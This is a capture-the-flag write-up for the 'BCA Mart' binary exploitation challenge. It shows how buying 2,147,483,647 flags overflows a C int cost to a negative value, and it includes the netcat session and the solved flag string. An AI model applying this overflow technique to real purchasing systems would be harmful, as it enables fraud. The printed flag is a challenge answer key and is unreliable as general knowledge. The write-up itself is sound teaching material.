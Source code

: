 # BCA Mart
**Category :** binex

# Description
After the pandemic hit, everybody closed up shop and moved online. Not wanting to be left behind, BCA MART is launching its own digital presence. Shop BCA MART from the comfort of your own home today!

# Solution
A source file, binary file and a netcat host:port were given.

```
$ file bca-mart
bca-mart: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=0dc848e79181e575b4c63ed0596fee4d52e3cdfd, for GNU/Linux 3.2.0, not stripped
```

We can see that file is a 64bit ELF binary.

My analysis on the source code.
* From looking at the source code we can see that money is a fixed value 15.
* There were to scanfs in the code, so 2 inputs.
* 1st scanf - definitely, we need to send 6 in here for the flag.
* 2nd scanf - we need to send the amount of flags in here, any number of our wish.
```
...
  3
  4 int money = 15;
...
  8     printf("How many %s would you like to buy?\n", item);
  9     printf("> ");
 10     scanf("%d", &amount);
...
 53         puts("What would you like to buy?");
 54
 55         printf("> ");
 56         scanf("%d", &input);
...
```

**Max length of int (4bytes) is -2,147,483,648 to 2,147,483,647.**

So if we send the amount as 2147483647, cost variable will overflow to negative since cost *= amount and cost is an int. Then cost will become negative and will be less than the money value. As we are returning the amount value in amount 2147483647 will still be positive. So purchase returns greater than zero success.

```
$ nc bin.bcactf.com 49153
Welcome to BCA MART!
We have tons of snacks available for purchase.
(Please ignore the fact we charge a markup on everything)

1) Hichew™: $2.00
2) Lays® Potato Chips: $2.00
3) Water in a Bottle: $1.00
4) Not Water© in a Bottle: $2.00
5) BCA© school merch: $20.00
6) Flag: $100.00
0) Leave

You currently have $15.
What would you like to buy?
> 6
How many super-cool ctf flags would you like to buy?
> 2147483647
That'll cost $-100.
Thanks for your purchse!
bcactf{bca_store??_wdym_ive_never_heard_of_that_one_before}


1) Hichew™: $2.00
2) Lays® Potato Chips: $2.00
3) Water in a Bottle: $1.00
4) Not Water© in a Bottle: $2.00
5) BCA© school merch: $20.00
6) Flag: $100.00
0) Leave

You currently have $115.
What would you like to buy?
> ^C
```

## Flag
bcactf{bca_store??_wdym_ive_never_heard_of_that_one_before}
